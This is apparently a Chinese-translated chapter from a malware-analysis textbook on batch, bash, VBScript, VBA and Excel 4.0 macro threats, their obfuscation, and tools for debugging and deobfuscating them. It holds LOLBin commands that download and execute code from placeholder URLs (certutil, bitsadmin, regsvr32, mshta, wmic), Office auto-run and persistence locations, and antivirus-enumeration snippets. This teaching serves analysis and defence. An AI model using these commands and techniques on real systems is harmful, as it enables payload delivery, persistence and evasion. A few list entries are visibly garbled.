# 第十章：脚本和宏 – 逆向工程、去混淆和调试

现在编写恶意软件已经成为一种商业行为，像任何生意一样，它的目标是通过降低开发和运营成本来尽可能地提高利润。另一个强大的优势是能够迅速适应不断变化的需求和环境。因此，随着现代系统变得越来越多样化，低级恶意软件需要更加特定地针对其任务，对于基本操作，如实际有效载荷的交付，攻击者倾向于选择那些可以在多个平台上运行并且开发和升级所需的工作量最小的方法。因此，脚本语言在攻击者中越来越受欢迎也就不足为奇了，因为它们满足了这两个条件。

除此之外，传统的攻击者需求依然有效，比如尽可能保持隐蔽，以成功实现恶意目标。如果脚本解释器已经存在于目标系统上，那么代码的体积相对较小。另一个反侦察的原因是，许多传统的杀毒引擎对二进制和字符串签名的支持相当好，但要正确检测混淆代码脚本，则需要语法解析器或模拟器，而这可能需要杀毒公司投入较高的成本来开发和支持。所有这些因素使得脚本成为第一阶段模块的完美选择。

本章我们将涵盖以下主题：

经典的 Shell 脚本语言

+   VBScript 解释

+   VBA 和 Excel 4.0 (XLM) 宏等

+   PowerShell 的强大功能

+   处理 JavaScript

+   C&C 背后——即便是恶意软件也有自己的后端

+   其他脚本语言

# 经典的 Shell 脚本语言

所有现代操作系统都支持某种命令语言，这些命令语言通常可以通过 Shell 访问。它们的功能因系统而异。一些命令语言可能足够强大，可以作为完整的脚本语言使用，而其他的则只支持与机器交互所需的最基本语法。在本章中，我们将涵盖两个最常见的例子：Unix 和 Linux 的 bash 脚本，以及 Windows 平台的批处理文件。

## Windows 批处理脚本

Windows 批处理脚本语言的创建主要是为了简化某些管理任务，而不是完全取代其他成熟的替代方案。虽然它支持某些编程概念，如函数和循环，但一些非常基础的操作，如字符串操作，可能比许多其他编程语言的实现更加不直观。代码可以直接从 `cmd.exe` 控制台界面执行，或者通过创建一个 `.cmd` 或 `.bat` 扩展名的文件来执行。请注意，命令是不区分大小写的。

即使到今天，支持的命令列表仍然相当有限。所有命令可以分为两组，如下所示：

+   `call`：此命令执行当前批处理文件或另一个批处理文件的功能，或执行一个程序。

+   `start`：此命令根据文件扩展名执行程序或打开文件。

+   `cd`：此命令更改当前目录。

+   `dir`：此命令列出文件系统对象。

+   `copy`：此命令将文件系统对象复制到新位置。

+   `move`：此命令将文件系统对象移动到另一个位置。

+   `del`/`erase`：这些命令删除现有文件（非目录）。

+   `rd`/`rmdir`：这些命令删除目录（非文件）。

+   `ren`/`rename`：这些命令更改文件系统对象的名称。

+   `at`：此命令调度程序在某个特定时间执行。*   `attrib`：此命令显示或更改文件系统对象属性；例如，`system`、`read-only`或`hidden`属性。*   `cacls`：此命令显示或更改`find`：此命令搜索特定的文件系统对象；例如，通过文件名、路径或扩展名。*   `format`：此命令格式化磁盘，可能会覆盖先前的内容。*   `ipconfig`：此命令显示并更新本地计算机的网络配置。*   `net`：这是一个多功能工具，支持各种网络操作，包括用户管理（`net user`）和远程资源管理（`net use`/`net share`）、服务管理（`net start`/`net stop`）等。*   `ping`：此工具通过使用 ICMP 数据包检查与远程资源的连接性。它还可以用于建立潜在的网络通道并窃取数据。*   `reg`：此命令执行各种注册表相关操作，如`reg query`、`reg add`、`reg delete`等。*   `robocopy`/`xcopy`：这些工具将文件系统对象复制到另一个位置。*   `rundll32`：此命令加载 DLL；这里支持按名称和顺序导出的两种方式。*   `sc`：此命令与服务控制管理器通信并管理 Windows 服务，包括创建、停止和更改操作。*   `schtasks`：这是`at`工具的更强大版本；它通过调度程序在特定时间启动程序。实际上，这是 Windows 任务调度程序的控制台替代工具，支持本地和远程计算机。*   `shutdown`：此命令重启或关闭本地或远程计算机。*   `taskkill`：此命令通过名称或 PID 终止进程；此外，支持本地和远程计算机。*   `tasklist`：此命令显示当前运行的进程列表；同时支持本地和远程计算机。

从历史上看，没有提供标准工具来发送 HTTP 请求（现在 `curl` 已在现代版本的 Windows 上可用）或压缩文件。从攻击者的角度来看，这意味着为了实现更多或更基本的恶意软件功能，例如下载、解密和执行附加有效载荷，他们必须编写额外的代码。直到后来，像 `bitsadmin` 和 `certutil` 这样的系统工具才被攻击者广泛滥用，用于下载和解码有效载荷。以下是它们被使用的一些示例：

+   `bitsadmin /transfer <any_name> /download /priority normal <url> <dest>`

+   `certutil -urlcache -split -f <url> <dest>`

+   `certutil -decode <src> <dest>`

此外，还有一些较少为人知的方式，Windows 恶意软件可以通过使用标准控制台命令来访问远程有效载荷，具体如下：

+   `regsvr32 /s /n /u /i:<url_to_sct> scrobj.dll`

+   `mshta <url_to_hta>`

+   `wmic os get /FORMAT:<url_to_xsl>`

最后，一些标准工具如 `wmic` 原生支持远程机器，因此如果有可用的凭证，就可以在另一台受害者的机器上执行某些命令，而无需额外的工具。

更多与标准工具相关的非标准安全应用可以在 **LOLBAS** 项目页面找到：[`lolbas-project.github.io/`](https://lolbas-project.github.io/)。

批处理文件中最常见的混淆模式如下：

+   通过从长块中提取子字符串来构建命令。

+   使用过多的变量替换；这里，许多变量要么未定义，要么在使用的地方远离定义的位置。

+   使用随机大小写字母的长变量名。

+   添加多个无意义的符号，如成对的双引号或插入符号转义字符 (`^`)。以下截图展示了一个示例：


图 10.1 – 使用转义符号进行批处理脚本混淆的示例

+   通常情况下，大小写字母混合使用（Windows 控制台不区分大小写，除非大小写有区别；例如在 base64 编码中）。以下是一个示例：



图 10.2 – 使用不存在的变量进行批处理脚本混淆的示例

第一和第二种情况可以通过仅使用 `echo` 命令打印这些操作的结果来处理。第三和第四种情况可以通过基本的替换操作轻松处理，而第五种情况则只需将所有内容转换为小写，除了像 base64 编码的文本等内容。

## Bash

Bash 是一个命令行界面，源于 Unix 世界。它遵循*一项任务一工具*的范式，在这个范式下，多个简单的程序可以连接在一起使用。Shell 脚本支持基本的编程构件，如循环、条件构造和函数。除此之外，它还通过多个外部工具提供支持——大多数可以在任何支持的系统上找到。然而，不同于 Windows 的 Shell（它有多个内建命令），即使是最基本的功能，如打印字符串，也由一个独立的程序完成（在这种情况下是 `echo`）。Shell 脚本的常见文件扩展名是 `.sh`。然而，即使是没有扩展名的文件，只要在头部提供了相应的解释器，也能正确执行；例如，`#!/bin/bash`。与 Windows 不同，在这里所有命令都是区分大小写的。

在 Linux 世界中还有许多其他的 Shell，如 `sh` 或 `zsh`，但它们的语法大体相同。

由于大多数 Linux 工具只提供一小部分功能，因此完整的攻击通常涉及许多工具。然而，其中一些工具被攻击者更频繁地使用，以实现他们的目标，尤其是在大规模感染的恶意软件中，如**Mirai**：

+   `chmod`：更改文件权限；例如，使文件可读、可写或可执行。

+   `cd`：更改当前目录。

+   `cp`：将文件系统中的对象复制到另一个位置。

+   `curl`：这是一个网络工具，用于通过多种支持的协议从远程服务器传输数据。

+   `find`：根据名称和某些属性搜索特定的文件系统对象。

+   `grep`：在文件或包含特定字符串的文件中搜索特定字符串。

+   `ls`：列出文件系统中的对象。

+   `mv`：移动文件系统中的对象。

+   `nc`：这是一个 netcat 工具，允许攻击者使用 TCP 或 UDP 从网络连接中读取和写入数据。默认情况下，在某些发行版上不可用。

+   `ping`：通过发送 ICMP 数据包检查对远程系统的访问。

+   `ps`：列出进程。

+   `rm`：删除文件系统中的对象。

+   `tar`：使用多种支持的协议压缩和解压文件。

+   `tftp`：这是 **简易文件传输协议**（**TFTP**）的客户端；它是 FTP 的简化版本。

+   `wget`：通过 HTTP、HTTPS 和 FTP 协议下载文件：



图 10.3 – Mirai Shell 脚本示例

就像任何其他编程语言编写的恶意软件一样，这里也可以加入混淆技术来延缓逆向工程过程，并绕过基本的签名检测。理论上，有多种方法可以实现，如动态解码和执行命令、使用奇怪的变量名，或者应用 `sed`/`awk` 字符串替换。然而，值得一提的是，现代物联网恶意软件仍然没有采用任何复杂的技术手段。这主要是因为所使用的脚本非常通用，通常只有在知道相应的网络 IOC 或检测到最终有效载荷时，才能可靠地检测到它们。

这就是我们需要了解的关于 shell 脚本的全部内容。现在，是时候讨论完整的编程语言了。特别地，让我们从微软的 **Visual Basic 脚本版**（**VBScript**）威胁开始。

# VBScript 解释

VBScript 是第一个嵌入 Windows 操作系统的主流编程语言。系统管理员长期以来一直积极使用它来自动化某些类型的任务，而无需安装任何第三方软件。它适用于所有现代微软系统，逐渐成为恶意软件编写者的流行选择，因为它提供了一种无需重新编译关联代码就能执行特定操作的可靠方法。

在撰写本文时，微软已决定转向 PowerShell 来处理管理任务，并将未来所有的 VBScript 支持交给 ASP.NET 框架。目前，尚无计划在未来的 Windows 版本中停止支持它。

VBScript 文件的本地文件扩展名为 `.vbs`，但也可以将其编码为使用 `.vbe` 扩展名的文件。此外，它们还可以嵌入到 Windows 脚本文件（`.wsf`）或 HTML 应用程序（`.hta`）文件中。`.vbs`、`.vbe` 和 `.wsf` 文件可以通过 `wscript.exe` 执行，该程序提供了适当的 GUI，或者通过 `cscript.exe` 执行，该程序是控制台替代品。`.hta` 文件可以通过 `mshta.exe` 工具执行。VBScript 代码还可以通过命令行直接执行，使用 `mshta vbscript:<script_body>` 语法。

## 基本语法

最初，这项技术是为了供 Web 开发人员使用的，这一事实极大地影响了其语法。VBScript 模仿了 Visual Basic，并具有类似的编程元素，例如条件结构、循环结构、对象和嵌入函数。数据类型略有不同，例如，VBScript 中所有变量默认都是 `Variant` 类型。

大多数这些高级功能可以通过相应的 **微软组件对象模型**（**COM**）对象访问。COM 是一个分布式系统，用于创建和交互软件组件。

以下是一些常被攻击者误用的 COM 对象及其相应的方法和属性：

+   `WScript.Shell`：这提供了对多个系统范围操作的访问，如下所示：

    +   `RegRead`/`RegDelete`/`RegWrite`：这些操作与 Windows 注册表交互，用于检查特定软件的存在（如防病毒程序），篡改其功能，删除活动痕迹，或添加模块以启动自动运行。

    +   `Run`：此功能用于运行应用程序。

+   `Shell.Application`：此功能提供更多与系统相关的功能，具体如下：

    +   `GetSystemInformation`：此功能获取各种系统信息，例如可用内存的大小，以识别沙箱环境。

    +   `ServiceStart`：此功能用于启动服务，例如与持久性模块相关联的服务。

    +   `ServiceStop`：此功能用于停止服务，例如属于防病毒软件的服务。

    +   `ShellExecute`：此功能用于运行脚本或应用程序。

+   `Scripting.FileSystemObject`：此功能提供对文件系统操作的访问，具体如下：

    +   `CreateTextFile`/`OpenTextFile`：此功能用于创建或打开文件。

    +   `ReadLine`/`ReadAll`：此功能用于读取文件内容，例如包含某些重要信息或其他加密模块的文件。

    +   `Write`/`WriteLine`：此功能用于向已打开的文件写入内容，例如覆盖重要文件或配置文件的内容，或传递下一阶段的攻击或混淆的有效载荷。

    +   `GetFile`：此功能返回一个`File`对象，提供对多个文件属性和一些有用方法的访问。

        +   `Copy`/`Move`：此功能用于将文件复制或移动到指定位置。

        +   `Delete`：此功能用于删除相应的文件。

        +   `Attributes`：此属性可修改以更改文件的属性。

    +   `CopyFile`/`Move`/`MoveFile`：此功能用于将文件复制或移动到另一个位置。

    +   `DeleteFile`：此功能用于删除指定的文件。

+   `Outlook.Application`：此功能允许攻击者访问 Outlook 应用程序，以传播恶意软件或垃圾邮件。

    +   `GetNameSpace`：某些命名空间，如 MAPI，允许攻击者访问受害者的联系人。

    +   `CreateItem`：此功能允许创建新邮件。

+   `Microsoft.XMLHTTP`/`MSXML2.XMLHTTP`：此功能允许攻击者发送 HTTP 请求，与 Web 应用程序交互。

    +   `Open`：此功能用于创建请求，例如`GET`或`POST`请求。

    +   `SetRequestHeader`：此功能用于设置自定义头部，例如用于受害者统计信息、额外的基本身份验证层，或甚至数据外泄。

    +   `Send`：此功能用于发送请求。

    +   `GetResponseHeader`/`GetAllResponseHeaders`：这些属性用于检查响应中的额外信息或基本服务器验证。

    +   `ResponseText`/`ResponseBody`：这些属性提供对实际响应的访问，例如命令或其他恶意模块。

+   `MSXML2.ServerXMLHTTP`：此功能提供与前述 XMLHTTP 相同的功能，但主要用于服务器端。通常推荐使用此功能，因为它处理重定向更好。

+   `WinHttp.WinHttpRequest`：此功能提供类似的功能，但它是通过不同的库实现的。

+   `ADODB.Stream`：此功能允许攻击者处理各种类型的流，具体如下：

    +   `Write`：此方法用于向流对象写入数据，例如从 C&C 响应中写入数据。

    +   `SaveToFile`：此方法将流数据写入文件。

    +   `Read`/`ReadText`：这些方法可用于访问 base64 编码的值。

+   `Microsoft.XMLDOM`/`MSXML.DOMDocument`：这些最初是为处理 XML 设计的，`createElement`：可以与 `ADODB.Stream` 一起使用，在与 `bin.base64` `DataType` 值以及 `NodeTypedValue` 属性一起使用时，用于处理 base64 编码。

那么，如何在执行分析时利用这些信息呢？这里是一个简单的代码示例，执行另一个有效负载：

```
Dim Val
Set Val= Wscript.CreateObject(“WScript.Shell")
Val.Run “""C:\Temp\evil.vbe"""
```

如你所见，一旦对象被创建，它的方法可以立即执行。在本地方法中，以下方法可用于执行表达式和语句：

+   `Eval`：此函数用于计算一个表达式并返回结果值。它将`=`运算符解释为比较操作符，而非赋值操作符。

+   `Execute`：此方法用于在本地作用域内执行一组由冒号或换行符分隔的语句。

+   `ExecuteGlobal`：此方法与 `Execute` 相同，但适用于全局作用域。攻击者常常用它来执行解码后的代码块。

此外，使用 VBScript 操作 **Windows 管理工具** (**WMI**) 相对简单。WMI 是用于管理 Windows 系统中数据的基础设施，可以访问各种信息，例如许多系统属性或已安装的防病毒产品列表。这些对攻击者来说都是潜在的兴趣点。

这里有两种方法可以访问：

+   借助 `WbemScripting.SWbemLocator` 对象及其 `ConnectServer` 方法来访问 `root\cimv2`：

    ```
    Set objLocator = CreateObject("WbemScripting.SWbemLocator") Set objService = objLocator.ConnectServer(".", "root\cimv2") objService.Security_.ImpersonationLevel = 3
    Set Jobs = objService.ExecQuery("SELECT * FROM AntiVirusProduct")
    ```

+   通过 `winmgmts:` 标识符：

    ```
    strComputer = "."
    Set oWMI = GetObject("winmgmts:\\" & "." & "\root\SecurityCenter2")
    Set colItems = oWMI.ExecQuery("SELECT * from AntiVirusProduct")
    ```

现在，让我们来讨论可以用来促进分析的工具。

## 静态与动态分析

曾经支持的 **Microsoft 脚本调试器** 已被 **Microsoft 脚本编辑器** 取代，并且作为 MS Office 的一部分一直发布到 2007 版本；后来该工具被停用：



图 10.4 – Microsoft 脚本编辑器界面

对于基本的静态分析，一个支持语法高亮的通用文本编辑器可能就足够了。对于动态分析，强烈建议使用 **Visual Studio**。即使是免费的社区版也提供了进行高效分析所需的所有功能。要开始调试过程，你可能首先希望以以下方式执行脚本：

```
cscript.exe /x evilscript.vbs
```

然而，对于大多数人来说，这不会立即生效。在此之前，你需要确保你的 IDE 已注册为 JIT 调试器。要为 Visual Studio 注册，进入其 **工具** | **选项...** | **调试** | **即时调试** 设置，确保 **脚本** 选项被勾选：



图 10.5 – 将 Visual Studio 注册为 VBScript 的 JIT 调试器

之后，执行上述 `cscript` 命令将自动开始建议使用 Visual Studio 进行调试：



图 10.6 – cscript 提示使用 Visual Studio 进行 VBScript 调试

一旦确认，所有准备工作就绪，你可以开始动态分析了：



图 10.7 – 在 Visual Studio 中调试 VBScript 文件

尽管使用 `Scripting.Encoder` 对象提供的 `EncodeScriptFile` 方法将 `.vbs` 文件编码为 `.vbe` 相对简单，但并没有原生工具可以将 `.vbe` 脚本解码回 `.vbs`；否则，这将削弱其目的：



图 10.8 – 原始和编码后的 VBScript 文件

然而，确实有一些开源项目旨在解决这个问题；例如，Didier Stevens 的 `decode-vbe.py` 工具。

在分析代码时，特别需要关注以下操作：

+   文件系统和注册表访问

+   与远程服务器的交互

+   应用程序与脚本执行

最后，让我们谈谈混淆以及如何处理它。

## 解除混淆

很常见，VBS 混淆使用相当基础的技巧，如添加垃圾注释或使用需要字符替换后才能使用的字符串。语法高亮在分析此类文件时非常有用。

另一个常见的示例是从嵌入的数据构建第二阶段有效载荷，例如从一个整数数组，然后动态执行它，如下图所示：



图 10.9 – VBScript 恶意软件动态构建第二阶段有效载荷

将其转换为实际代码的最简单方法之一是使用一个名为 **CyberChef** 的绝佳在线工具：



图 10.10 – VBScript 恶意软件解码后的第二阶段

一旦你获得了实际的功能代码，处理它的最简单方法是搜索你最感兴趣的函数（我们之前列出的那些），并检查它们的参数，以获取有关丢弃或外泄文件、执行的命令、访问的注册表项以及需要连接的 C&C（命令与控制）信息。如果混淆层使得功能完全不清晰，那么需要追踪在下一个阶段脚本中累积的变量。你可以逐层迭代，逐一打印或观察它们，直到主代码块变得可读。

现在我们了解了 VBScript，让我们谈谈一个稍微不同的话题——宏以及依赖它们的威胁。

# VBA 和 Excel 4.0（XLM）宏及其他

虽然许多高调的恶意软件攻击与利用的漏洞相关，但人类依然是防御链中最弱的环节。社会工程学技巧使恶意行为者能够在不创建或购买复杂漏洞的情况下成功执行其代码。

由于许多组织现在为所有新员工提供网络安全培训，许多人已经了解了一些基本常识，例如，通过各种方式从组织外部或你认识的人群中接收到的链接或可执行文件是非常不安全的。因此，攻击者必须发明新的方法来欺骗用户，包含恶意宏的文档就是这些持续努力的一个典型例子。

## VBA 宏

MS Office 宏包含了**Visual Basic for Applications**（**VBA**）编程语言。它源自已经停用很久的 Visual Basic 6。VBA 幸存下来，并在后来升级到了 7 版本。通常，代码只能在宿主应用程序中运行，并且它被集成在大多数 Microsoft Office 应用程序中（即使是 macOS 版）。

### 基本语法

VBA 是 Visual Basic 的一种方言，继承了其语法。VBScript 可以看作是 VBA 的一个子集，简化了一些功能，主要是由于不同的应用程序模型。在分析 VBA 对象时，仍需要注意相同的元素：

+   文件和注册表操作

+   网络活动

+   执行的命令

攻击者关注的 COM 对象列表与 VBScript 的相同。唯一的区别是，某些功能可以在不创建对象的情况下访问；例如，`Shell`方法。

为确保恶意软件能够自动执行，它必须使用某些标准函数名来定义何时执行。这些函数名在不同的 MS Office 产品中略有不同。以下是最常被滥用的几个：

+   `AutoOpen`/`Auto_Open`

+   `AutoExit`/`Auto_Close`

+   `AutoExec`

+   `Document_Open`/`Workbook_Open`

这是一个使用`Document_Open`实现这一目的的示例：


图 10.11 – 一个恶意的 VBA 宏注册`Document_Open`例程以实现执行

恶意软件还可以安装专用的处理程序，以便在某些条件下稍后执行，例如，使用`Application.OnSheetActivate`函数。

MS Office 有自己的自动启动目录，恶意软件常通过滥用这些目录来实现持久性。它们通过将代码放置在这些目录中来实现。以下是不同产品和版本的标准目录：

+   `%APPDATA%\Microsoft\Word\STARTUP`

+   `C:\Program Files\Microsoft Office\[root\]<Office1x>\STARTUP`

+   `%APPDATA%\Microsoft\Excel\XLSTART`

+   `C:\Program Files\Microsoft Office\[root\]<Office1x>\XLSTART`

除此之外，通过操控全局宏文件也可以实现持久性：

+   `Normal.dot`/`.dotm`：Word 的全局宏模板（在`%APPDATA%\Microsoft\Templates`中）

+   `Personal.xls`/`.xlsb`：Excel 的全局宏工作簿（在`XLSTART`中）

现在，让我们来谈谈哪些工具可以帮助我们分析恶意宏。

### 静态和动态分析

与 VBScript 不同，VBA 在 MS Office 中有一个原生编辑器，可以通过**开发工具**选项卡访问，该选项卡默认情况下是隐藏的。可以在**Word 选项**的**自定义功能区**菜单中启用它：



图 10.12 – 在 MS Office 选项中启用 VBA 宏编辑器

它支持以这种方式调试代码，使得静态和动态分析相对直接。

另一个可以从文档中提取宏的工具是`info`命令行参数。除此之外，之前提到的来自**oletools**项目的工具（尤其是**olevba**）和**oledump**也可以用来提取和分析 VBA 宏。如果工程师因为某些原因想处理 p-code 而不是源代码，**pcodedmp**项目旨在提供所需的功能。

最后，**ViperMonkey**可以用来模拟一些 VBA 宏，从而帮助处理混淆。

## Excel 4.0 (XLM) 宏

XLM 宏，也称为公式，是 Microsoft Excel 中存在了 30 年的功能，最近突然在攻击者中获得了流行。一个例子是`SUM`函数，通常用于自动计算分布在多个单元格中的数字总和。虽然其中一些本身可能是危险的，例如`EXEC`，它允许任意命令执行，但在大多数情况下，攻击者会将许多无害的宏链在一起，以实现恶意功能。

### 基本语法

以下是一些常见的在最终去混淆有效载荷中被误用的公式示例：

+   `IF(logical_test, value_if_true, value_if_false)`

+   `SEARCH(find_text, within_text, start_num)`

+   `CALL(dll_name, api_name, format, arg0, …)`

另一个类似于`CALL`选项的选项是`REGISTER`。

一个明显的简单恶意有效载荷示例就是调用`URLDownloadToFile`和`ShellExecuteA`等 API 来传送并执行下一个阶段的有效载荷。

